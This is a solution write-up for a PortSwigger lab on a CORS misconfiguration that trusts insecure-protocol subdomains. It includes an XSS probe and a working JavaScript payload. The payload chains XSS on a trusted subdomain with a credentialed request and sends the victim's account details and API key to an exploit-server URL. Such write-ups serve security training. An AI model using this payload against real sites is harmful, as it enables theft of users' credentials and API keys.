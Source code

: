 # [Lab: CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

## Lab

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

header of the request's response to `/accountDetails` contains `Access-Control-Allow-Credentials`.

- request from exploit-server, the `Access-Control-Allow-Origin` is reflected with subdomain `**.id.web-security-academy.net`

use the `check stock` function at product page, we know that there is a subdomain `stock.id.web-security-academy.net`.

this subdomain is vulnerable to XSS:

```http
GET /?productId=<script>alert()</script>&storeId=1 HTTP/1.1
```

- response:

  ```html
  <h4>ERROR</h4>Invalid product ID: <script>alert()</script>
  ```

## Solutions

exploit the xss from trusted subdomain to retrieve sensitive information.

craft a response at exploit-server:

- body:

  ```js
  <script>
      document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
  </script>
  ```

deliver to victim and observe the apikey => solved
